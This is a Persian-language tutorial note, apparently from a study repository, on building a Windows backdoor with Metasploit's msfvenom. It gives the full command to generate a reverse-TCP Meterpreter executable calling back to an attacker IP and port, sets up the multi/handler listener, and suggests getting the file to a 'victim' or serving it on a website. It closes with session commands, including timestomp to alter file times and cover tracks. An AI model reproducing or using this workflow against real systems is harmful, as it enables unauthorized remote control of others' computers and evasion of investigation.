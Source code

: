 $\color{#b91646}{\textsf{MSFvenom backdoor}}$
=============================================

برنامه ی metasploit یه مکانیزمی داره برای درست کردن backdoor توی ویندوز

برنامه ی metasploit یک مجموعه ابزار بزرگیه که به ما اجازه میده exploit هایی که از قبل نوشته شده رو اجرا کنیم.

اینجا از ابزار **msfvenom** استفاده می کنیم.


ایده -> می خوام یه payload درست کنم که یه فایل exe. است. توی metasploit کالی یه سیستمی بذارم که شنود می کنه، در واقع منتظر connection است و در نهایت فایل exe. رو بفرستم برای یه سیستم ویندوزی که روی ماشینش اجرا بشه و بعد exe. به metasploitable وصل می شم و می تونیم از طریق متااسپلویت command هایی بزنیم که قربانی رو کنترل کنیم..

نوشتن برنامه ی exe. پیچیده است در نتیجه از metasploit framework درخواست می کنیم که همچین چیزی رو برامون بنویسه.

## $\color{#105652}{\textsf{Create payloads}}$

To create payloads  and then serve it on a website :D

`root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.117 LPORT=1234 --format=exe > attack.exe`

به MSFvenom بگم یه دونه فایل اجرایی به من بده که اون exploit خاص توش هست.

خودمون انتخاب می کنیم می خوایم از windows/meterpreter/reverse_tcp استفاده کنیم. (از نظر منطقی TCP connection می خوام و می خوام اون به من وصل بشه پس می شه reverse_tcp) -> payload

کانفیگ های local host و local port رو مشخص می کنیم. (باید بگیم وصل شه به چی. IP و Port سیستم خودمون که mfs روش هست رو میدیم.)

حالا به mfs می گیم چی درست کن یعنی format فایل درخواستی رو مشخص می کنیم.

می گیم چه payload ای رو در چه فرمتی بریز.

در نهایت خروجی رو در فایل attack.exe بریز.



## $\color{#105652}{\textsf{Listen with my PC}}$

`root@kali:~# msfconsole`

حالا به کامپیوتر خودمون می گیم به عنوان کسی که می خواد گوش بده اجرا کنه. شروع می کنه به وصل شدن. (به msf5 وصل شدیم)

`> db_staus`

برای اینکه مطمئن شیم سیستم بالاست می تونیم دستور db_status رو بزنیم.

`> use exploit/multi/handler`

از بین exploit ها multi/handler رو استفاده می کنیم.

`> set payload windows/meterpreter/reverse_tcp`

مشخص می کنیم از چه payload ای می خوایم استفاده کنیم. (همون payload ای که توی درست کردن فایل exe. استفاده کردیم.)

`> set LHOST 192.168.0.117`

`> set LPORT 1234`

یکسری confoig ها رو تنظیم می کنیم. -> همون local host و local port ای که توی ساخت payload تنظیم کرده بودیم.

`> exploit -j -z`

توی background می تونیم exploitمون رو اجرا کنیم.


## $\color{#105652}{\textsf{RUN in victim system}}$


حالا فایل exe. رو باید بفرستیم توی یه ماشین اجراش کنیم.

 به یه طریقی فایل رو به دست سیستم قربانی می رسونیم.

 قربانی فایل exe. رو اجرا می کنه و دسترسی به مهاجم از طریق msf داده می شه.

 ## $\color{#105652}{\textsf{Get ssesion in attacker system (msf)}}$

حالا که ارتباط برقرار شده بین قربانی و مهاجم، مهاجم می تونه command هایی که می خواد رو بزنه. -> **backdoor** ساختیم.

`> sessions -i`

همه ی session هایی که داریمو نشون میده. -> مثلا می فهمه که از ویندوز قربانی بهش وصل شدن.

`> sessions -i 1`

بین session ها با این دستور وصل می شه به session 1 

`> cd, ls, pwd, sysinfo, ipconfig, getuid, cat, timestomp, ...`

دستورات backdoor رو می زنیم و کار می کنیم.

با دستور sysinfo می تونیم اطلاعات مربوط به سیستم رو ببینیم.

با دستور timestomp می تونیم زمان فایل هارو دستکاری کنیم -> می تونیم یه فایل رو ادیت کنیم و بعد زمانش رو تغییر بدیم. (در خصوص پاک کردن ردپاها تاثیر داره)
